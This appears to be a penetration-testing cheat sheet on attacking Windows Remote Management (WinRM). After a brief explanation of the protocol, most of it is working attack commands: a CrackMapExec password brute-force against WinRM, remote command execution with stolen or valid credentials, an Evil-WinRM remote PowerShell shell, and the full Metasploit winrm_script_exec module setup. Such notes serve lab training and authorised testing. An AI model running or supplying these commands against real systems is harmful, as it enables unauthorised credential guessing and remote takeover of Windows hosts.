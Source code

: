 # WinRM

# Explanation

- Windows Remote Management Protocol (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems.

- Microsoft implemented WinRM in to Windows in order to make life easier for system administrators.

- WinRM is tipically used in the following ways : 
    - Remotely access and interact with Windows hosts on a local network.
    - Remotely access and execute commands on Windows systems.
    - Manage and configure Windows systems remotely.

- WinRM tipically uses TCP port 5985 and 5986 (HTTPS).

- WinRM implements access control and security for communication between systems through various forms of authentication.

# Brute force attack

```
crackmapexec winrm <target> -u <user> -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

# RCE with valid account

## Crackmapexec

```
crackmapexec winrm <target> -u <user> -p <password> -x "whoami"
crackmapexec winrm <target> -u <user> -p <password> -x "systeminfo"
```

## Remote PowerShell shell with Evil-Winrm

```
evil-winrm.rb -u <user> -p 'password' -i <target>
```

## Metasploit framework

```
service postgresql start && msfconsole
msf6> search winrm_script
msf6> use exploit/windows/winrm/winrm_script_exec
msf6> set RHOSTS <target>
msf6> set USERNAME <user>
msf6> set PASSWORD <password>
msf6> set FORCE_VBS true
msf6> run
```
